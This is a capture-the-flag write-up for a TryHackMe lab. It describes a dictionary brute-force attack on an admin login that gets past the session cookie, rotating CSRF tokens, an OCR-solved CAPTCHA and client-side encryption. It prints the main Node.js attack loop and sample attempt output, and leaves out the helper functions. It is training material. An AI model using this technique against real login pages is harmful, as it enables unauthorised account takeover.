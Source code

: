 ```yaml
---
layout: post
title: TryHackMe - "CAPTCHApocalypse"
categories: Challenges
tags: red-team pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/captchapocalypse)

## Intro

We are targeting a website displaying a login form. We know username is "admin", but the password isn't easily guessable, so we need to perform a bruteforce attack using a dictionary (we're told the dictionary to use is "rockyou.txt," specifically the first 100 lines). However, the login form isn't easily crackable with common "pre-packaged" attacks because we have three elements protecting it:

- Upon the client's first request to the main page, the server sends the <u>session</u> number to the client via a cookie (see response header). The client must therefore send this cookie in each request. It remains fixed, so it's not a major problem.

- There's also a <u>CSRF token</u>, contained in the login html page (useful for preventing CSRF attacks). This changes with each failed login attempt, so for each failed login attempt, we need to keep track of this string and send it back to the server, sending the login POST.

- The login page also requires the famous <u>captcha</u>: an image displaying a number, which must be sent back to the server in the login POST: for each login attempt, we must recognize the alphanumerical text shown in the image using an OCR function (we can use the "tesseract" library) and send it to the server along with the other parameters (username, password, csrf-token).

Because of these three protective elements, we can't simply make multiple POST requests containing the various words from the dictionary to be used as passwords for "admin" user, perhaps using Hydra or other automated brute-forcing methods. Instead, we need to program our custom script, which for each login attempt will send to the server the session ID, the anti-CSRF token (which changes with each attempt, so it must be extracted from a new login page, for each cycle), and the corresponding captcha.

## Encryption and Javascript

In addition to what we said earlier, there is one more thing to note: the target web application is programmed to send the query containing the four parameters (username, password, csrf-token, captcha_input) in encrypted form using "forge" JavaScript library (forge.min.js), called by login script (script.js), so this adds complexity to our brute-force attack.

The encryption is asymmetric, but this isn't a problem because the client-side JavaScript login script (viewable in our browser) shows us the two keys (private key for decryption, and public key for encryption). By looking at source code, we can see how login process works, which retrieves the strings contained in the form fields (username, password, csrf-token, captcha_input), packages them into a query string, which is transformed into a base64 string, and then it's encrypted, and sent to the server with a POST.
The response that comes from the server will have to be treated inversely: there will be decryption, base64 decoding, and then treatment of the different result cases (successful login, failed login, invalid captcha). Note: login request/response content type is JSON. 

Since the client-side login logic is contained almost exclusively in the JavaScript script, which extracts all fields from login form and sends them in encrypted form to the server, it will be more convenient to program our custom brute-forcing script in JavaScript itself, using Node.js technology, which allows the execution of JavaScript as a command-line script from terminal, just as we would if we were calling a Python script.

## Brute-force script

We do not present the complete script of all the subfunctions to avoid giving away any easy spoilers, but only the fundamental part that manages the logic of our bruteforcing attack.

    console.log("Loading dictionary...");
    var words = await readDictionaryFile();
    console.log("Done.");	   
    console.log("Requesting web index...");
    var index_page_text = await requestIndexPage();
    console.log("Session ID:", session_id); // session_id is extracted from response header

    var csrf_match = index_page_text.match(csrf_regexp);
    var csrf_str = csrf_match[1];
    var captcha_str = await requestCaptcha();
    captcha_str = captcha_str.trim();
    var result;
    var i = 0;
    for (let word of words) {
        result = 2;
        while (result == 2) { // while captcha is not recognized we will retry login with the same password and a new captcha
            console.log(i + ";admin:" + word + ";csrf:" + csrf_str + ";captcha:" + captcha_str);
            result = await custom_login(login_url, session_id, username, word, csrf_str, captcha_str);
            if (result == 0) { // login successful 
                break;
            }
            else if (result == 1) { // login failed
                let login_page_text = await requestLoginPage();
                csrf_match = login_page_text.match(csrf_regexp);
                csrf_str = csrf_match[1];
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result == 2) { // captcha invalid (not recognized), we only request another captcha
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result > 2){ // connection error
                break;
            }
        }
        if ((result == 0) || (result > 2) || (i > 100)) {
            break
        }
        i++;
    }

In summary, the first request to the index server page is mainly to capture the session number which will remain fixed throughout the attack, and also capture the first csrf token (and captcha), which we use on the first login attempt.

After that, the cycle begins: for each _word_ in the dictionary (rockyou.txt), we do POST login request sending username, password (_word_), csrf_token, captcha string, and cookie header with session_id, calling our "custom_login" function, which is very similar to the original login() function defined in "script.js" file, and it returns a result based on the server response.

- If result of our "custom_login" is 0 (successful login) we break the loop 
- If result is 1 (failed login) we move on, requesting a new login page in order to extract a new csrf token, and requesting a new captcha from the server, and then making a new POST login attempt, etc. etc..
- If result is 2 (invalid captcha), we request to the server a new captcha, without requesting a new login page, we recognize it using OCR technique, and we retry login with the same password until captcha will be recognized correctly. This is the meaning of "while (result == 2)" statement.

In other words, the "for" loop, which attempts a login for each word in the dictionary, continues to run within "while" sub-loop if captcha is not recognized correctly; otherwise, it proceed normally with the next password from dictionary, continuing with the "for" loop.

By implementing the script (completely, with sub-functions, etc.) and running our script, the password will be found within a fairly reasonable amount of time. Then, with that correct password, you'll need to log in with your browser to access to admin account (basically, a simple page will appear that will display the flag).

We show only the first lines of the script's output without going any further to avoid spoilers.

    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:BHDG3
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:IB259
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:4UBKZ
    Login failed
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:LAGNX
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:T8SUM
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:KsXaY
    Login failed
    2;admin:123456789;csrf:09df82f29e3fc313bc586e62de97b2270fe50813f75065d02a293fdb19eef9ba;captcha:H94UV
    Login failed
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:QEVSM
    CAPTCHA incorrect.
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:Y8PJ4
    Login failed
    4;admin:iloveyou;csrf:9479c2ef0ace5ede25c7121d036a35f2767c73606ffb61d1890b7f50f46cbd08;captcha:2DE7S
    Login failed
    5;admin:princess;csrf:58ce68c397d00eba5ecab28e6789af05e1c6743116a29413f3b0ef79f2e64616;captcha:8X9CG
    Login failed
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:KNZOT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:voseT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:SBXLY
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:T2BMP
    Login failed
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:2NSPG
    CAPTCHA incorrect.
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:NSLPX
    Login failed
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:75VUT
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:YSIRK
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:E6Jav
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:TFDES
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:B53GA
    Login failed
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:MKC3
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:DIKBN
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:2THaD
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:NZAFS
    Login failed
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:HEK32
    CAPTCHA incorrect.
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:GFUK2
    Login failed
    11;admin:daniel;csrf:5c4d65f2f195884d76c59bbad2beb6b8512e243d0013d3929341fe2c7291ff2b;captcha:HoaMA
    CAPTCHA incorrect.